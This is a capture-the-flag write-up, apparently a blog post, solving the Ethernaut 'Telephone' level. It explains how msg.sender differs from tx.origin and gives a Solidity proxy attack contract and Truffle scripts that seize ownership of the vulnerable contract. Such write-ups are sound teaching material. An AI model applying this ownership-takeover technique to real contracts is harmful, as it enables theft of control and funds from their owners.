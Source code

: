 Title: Solving Zeppelin's Ethernaut CTF - Telephone
Date: 2018-06-10 18:20
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-telephone
Summary: Fifth post of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. We claim ownership of the Telephone contract by first understanding the difference between the sender and origin of Ethereum transactions.

## Introduction
The Telephone contract challenge is far from being the hardest or most complex of all, but through solving it we will dig a bit deeper in how Ethereum works internally. Not so much to say here, so just go and [read the challenge](https://ethernaut.zeppelin.solutions/level/0x6b7b4a5260b67c1ee9196a42dd1ed8633231ba0a){:target="_blank",:rel="noopener"}.

## The Telephone Contract
Our objective is to claim ownership of the contract. According the the constructor's code, the deployer is the first owner.
~~~solidity
function Telephone() public {
    owner = msg.sender;
}
~~~

Anybody with intentions to become the new owner must call the public `changeOwner` function passing the address as an argument:
~~~solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
}
~~~
Doesn't seem so difficult, except for that `if` clause. Let's see what it means.

Among the available global variables in Solidity, there're two which can be a bit confusing at first: `msg.sender` and `tx.origin`. Up until now, we've only seen and used `msg.sender` to reference the caller's address. However, while [solving the Coinflip challenge](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-coinflip), we learned that public functions can be called both from 'outside' the blockchain (i.e. from an externally owned account) or 'inside' the blockchain (from another contract's code).
Moreover, we stated that while all **transactions** are originated by an EOA, contracts can send messages to each other, those messages being all included in the same transaction which triggered the whole call chain.

As a result, in Solidity there are two different global variables to reference each of those cases. On the one hand, `msg.sender` references the actual caller (the last caller in the call chain) of the function. It could be an EOA or a contract address.

On the other hand, `tx.origin` indicates the address of the EOA that gave origin to the whole transaction.

For instance, imagine that the externally owned account 'A' calls a function in contract 'B' which calls a function in contract 'C'. This super complex call chain results in: A -> B -> C. In B's code, `tx.origin` and `msg.sender` would be the same: the address of A. Conversely, in C's code, `tx.origin` and `msg.sender` would be different: while `msg.sender` would be B's address, `tx.origin` would equal A's address.

All of this means that, to become the owner of Telephone, an attacker cannot simply call the `changeOwner` public function from his/her EOA. Were he/she to do that, `tx.origin` would always equal `msg.sender` (your address), thus the `if` clause would never be true.

Instead, the solution relies on deploying a new 'proxy' contract (just like we did in the Coinflip challenge) controlled by the attacker (us), which will be in charge of calling the `changeOwner` function of `Telephone` contract and become its owner on the attacker's behalf.

## The exploit

Let's first write the `TelephoneAttack` contract code. Note its similarities with the [`CoinflipAttack` contract](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/CoinFlipAttack.sol){:rel="noopener"} we saw in the previous post. The same observations we highlighted in that one apply here as well.

~~~solidity
pragma solidity ^0.4.18;

import "./Telephone.sol";

contract TelephoneAttack {
    Telephone public victimContract;

    function setVictim(address _addr) public {
        victimContract = Telephone(_addr);
    }

    function changeOwner(address _owner) public {
        victimContract.changeOwner(_owner);
    }
}
~~~

Once you added `Telephone.sol` and `TelephoneAttack.sol` to the `contracts` folder of your project, write the necessary code (see below) to deploy both of them to the blockchain in `migrations/2_deploy_contracts.js`. Then run `npx truffle migrate`.

~~~javascript
let Telephone = artifacts.require('./Telephone.sol')
let TelephoneAttack = artifacts.require('./TelephoneAttack.sol')
module.exports = deployer => {
    deployer.deploy(Telephone)
    deployer.deploy(TelephoneAttack)
}
~~~

Inside your `exploits` folder, create a file called `telephone.exploit.js`. As always, follow the same code structure used for the previous exploits:

~~~javascript
const TelephoneContract = artifacts.require('Telephone')
const TelephoneAttackContract = artifacts.require('TelephoneAttack')
const assert = require('assert')

async function execute(callback) {
    let victimContract = await TelephoneContract.deployed()
    let proxyContract = await TelephoneAttackContract.deployed()

    // Set the victim's address
    proxyContract.setVictim(victimContract.address)
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker account is ${attackerAccount}`)

    // Check original owner
    let contractOwner = await victimContract.owner.call()
    console.log(`Original owner ${contractOwner}`)

    callback()
}
module.exports = execute
~~~

Changing the owner is just a matter of calling our malicious contract's `changeOwner` function from our attacker account. Then verify that the ownership was succesfuly changed:
~~~javascript
// Change owner
await proxyContract.changeOwner(attackerAccount, {
    from: attackerAccount
})

// Check final owner
contractOwner = await victimContract.owner.call()
assert.equal(contractOwner, attackerAccount)
console.log(`New owner ${contractOwner}`)
~~~

Now run `npx truffle exec exploits/telephone.exploit.js` and that's it! Challenge passed.

See the [full code of the exploit](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/telephone.exploit.js) and the [attacker contract code](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/contracts/TelephoneAttack.sol).

Thanks for reading!. For the [next post](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-token/), be ready to **steal some ethers** from a basic token contract and pass the [Token challenge](https://ethernaut.zeppelin.solutions/level/0x6545df87f57d21cb096a0bfcc53a70464d062512){:rel="noopener"}.
